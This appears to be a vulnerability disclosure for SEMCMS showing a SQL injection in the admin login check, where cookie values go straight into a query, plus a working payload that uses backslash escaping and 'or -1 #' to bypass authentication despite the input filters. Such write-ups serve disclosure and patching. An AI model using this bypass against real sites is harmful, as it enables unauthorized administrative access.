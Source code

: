 # backstage_access_control
---
## Vulnerabilities is exist \Include\contorl.php 128 line
![f](https://github.com/cve-vul/vul/blob/master/SEMCMS/f.png)
**Function checkuser is Determine whether the user is logged in or not**

**In line 187**
```
$query=$db_conn->query("select * from sc_user where user_admin='$cookieuseradmin' and user_ps='$cookieuserpass'");
```
**Variables $cookieuseradmin and $cookieuserpass are obtained from cookies**

**And through test_input() and verify_str() two detection functions**
![b](https://github.com/cve-vul/vul/blob/master/SEMCMS/b.png)
![c](https://github.com/cve-vul/vul/blob/master/SEMCMS/c.png)

**So,Universal password "or 1 = 1" is not feasible. The equality sign is filtered in the verify_str function.**
**But! Password "or-1" is OK,So the final payload is:**
```
Payload:
select * from sc_user where user_admin='\' and user_ps=' or -1 #'
```
![g](https://github.com/cve-vul/vul/blob/master/SEMCMS/g.png)
